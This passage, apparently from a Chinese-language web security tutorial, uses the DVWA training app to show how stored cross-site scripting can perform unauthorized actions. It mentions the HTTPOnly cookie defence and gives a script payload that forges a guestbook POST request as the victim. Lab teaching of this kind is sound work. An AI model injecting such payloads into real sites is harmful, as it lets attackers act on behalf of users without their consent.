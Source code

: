 ![dvwa page reflected xss vulnerability](img/3475e8538e6ad669e649a703e0768fcd.png)

**HTTPOnly** cookie 属性可以通过阻止通过 JavaScript 访问 cookie 值来帮助缓解这种情况。可以在初始化 cookie 值时设置(通过`Set-Cookie`头)。

## **XSS 攻击 2:执行未经授权的活动**

如果设置了 **HTTPOnly** cookie 属性，我们就无法通过 JavaScript 窃取 cookie。然而，使用 XSS 攻击，我们仍然可以代表用户在应用程序内部执行未经授权的操作。

例如，在这个攻击场景中，我们将在未经受害用户同意的情况下，代表受害用户在留言簿中张贴新消息。为此，我们需要用 JavaScript 为留言簿页面伪造一个带有适当参数的 HTTP POST 请求。

下面的有效负载将通过创建一个 **XMLHTTPRequest** 对象并设置必要的头和数据来完成这项工作:

```
<script>

	var xhr = new XMLHttpRequest();

	xhr.open('POST','http://localhost:81/DVWA/vulnerabilities/xss_s/',true);

	xhr.setRequestHeader('Content-type','application/x-www-form-urlencoded');

	xhr.send('txtName=xss&mtxMessage=xss&btnSign=Sign+Guestbook');

</script>
```

这是请求在浏览器中的样子，也是在 Burp 中截取的。
